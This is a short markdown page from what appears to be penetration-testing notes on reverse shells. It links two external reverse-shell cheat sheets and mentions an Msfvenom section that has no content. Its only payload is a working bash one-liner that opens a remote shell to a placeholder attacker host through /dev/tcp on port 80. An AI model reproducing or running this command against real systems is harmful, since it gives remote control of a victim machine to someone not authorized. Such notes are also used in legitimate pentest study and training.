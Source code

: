 # Reverse-shells



This is s great collection of different types of reverse shells and webshells.
https://highon.coffee/blog/reverse-shell-cheat-sheet/

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Msfvenom

There is more info on this topic in the metasploit chapter in /exploiting. But here goes


## bash
```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```